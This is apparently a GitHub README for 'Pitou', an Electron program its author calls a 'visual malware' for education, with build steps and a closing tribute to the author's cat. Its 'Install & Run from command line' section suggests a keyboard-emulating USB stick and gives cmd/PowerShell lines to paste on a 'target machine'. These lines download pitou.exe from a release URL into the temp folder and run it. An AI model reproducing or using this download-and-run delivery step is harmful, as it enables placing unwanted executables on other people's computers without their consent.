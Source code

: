 # Pitou 
Pitou is a visual malware developed for education purposes.

This program is written in Javascript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![alt text](./Demo.PNG)

## How to use
### Disclaimer
- This malware is for academic purposes, the use of this software is your responsibility.

### Use with Node.js
1) Run `npm install`.
2) Run `npm run start`.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `pitou.exe`.

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) Install [Electron-Builder](https://www.electron.build/).
3) Run `electron-builder --win portable`.
4) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Pitou/releases/download/v2.0.0/pitou.exe" -outfile "p.exe"
p.exe
exit
```

## Context
Pitou is my cat and I love him so much that I've decided to honour him doing this program.
Please, he is so nice so take care of him and he will be happy, and you'll never forget him ...
Lila is his mother and Clony is his sister.
